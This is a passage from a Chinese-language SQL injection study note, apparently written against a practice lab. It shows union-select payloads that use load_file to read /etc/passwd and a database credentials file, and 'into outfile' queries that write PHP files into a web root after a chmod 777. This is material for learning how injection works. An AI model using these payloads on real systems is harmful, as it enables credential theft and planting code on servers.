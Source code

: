 ```bash
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false

1 row in set (0.00 sec)

ERROR:
No query specified

mysql>

```
读取敏感信息：[https://blog.csdn.net/weixin_30292843/article/details/99381669](https://blog.csdn.net/weixin_30292843/article/details/99381669)<br />在网站上面读取内容:`?id=-2%20union%20select%201,load_file(%27/etc/passwd%27),3`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623989195103-ebd43100-666d-46c5-b646-3a4adf29b728.png#clientId=u036edfef-3b9a-4&from=paste&height=325&id=uecabb3e9&originHeight=650&originWidth=1723&originalType=binary&ratio=2&rotation=0&showTitle=false&size=202365&status=done&style=none&taskId=uc62e071b-e8f7-4237-9d11-7c69c9da6c5&title=&width=861.5)<br />读取数据库的配置信息<br />`?id=-1%20union%20select%201,load_file(%27/var/www/html/sql-connections/db-creds.inc%27),3`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623989421828-d1d6b120-334d-44ac-a1a6-c66dc28d9d70.png#clientId=u036edfef-3b9a-4&from=paste&height=232&id=uf55ae938&originHeight=464&originWidth=1431&originalType=binary&ratio=2&rotation=0&showTitle=false&size=351102&status=done&style=none&taskId=ud6547cf0-9b89-4957-bd28-e65338b514e&title=&width=715.5)<br />右击查看源代码<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623989440889-9b489f85-4f0e-482b-9241-c8ad2e5f6395.png#clientId=u036edfef-3b9a-4&from=paste&height=380&id=u48f1bf20&originHeight=782&originWidth=1481&originalType=binary&ratio=2&rotation=0&showTitle=false&size=59685&status=done&style=none&taskId=ud837129a-a6cb-438b-819b-295b2289afd&title=&width=720.5)

- 文件写入
```bash
mysql> select '<?php phpinfo() ?>' into outfile './php';
Query OK, 1 row affected (0.00 sec)

mysql>
root@06026a1599f9:/# cat /var/lib/mysql/php
<?php phpinfo() ?>

mysql> select '<?php phpinfo() ?>' into outfile '/var/www/php';
ERROR 1 (HY000): Can't create/write to file '/var/www/php' (Errcode: 13)
mysql>


```
在linux中默认是对/var/lib/mysql目录下有写入权限对其他目录是没有写入权限。<br />对目录修改权限测试
```bash
mysql> select '<?php phpinfo() ?>' into outfile '/var/www/html/test.php';
ERROR 1 (HY000): Can't create/write to file '/var/www/html/test.php' (Errcode: 13)
mysql> \q
root@06026a1599f9:/# chmod -Rf 777 /var/www/html/
root@06026a1599f9:/# mysql
mysql> select '<?php phpinfo() ?>' into outfile '/var/www/html/test.php';
mysql>
```
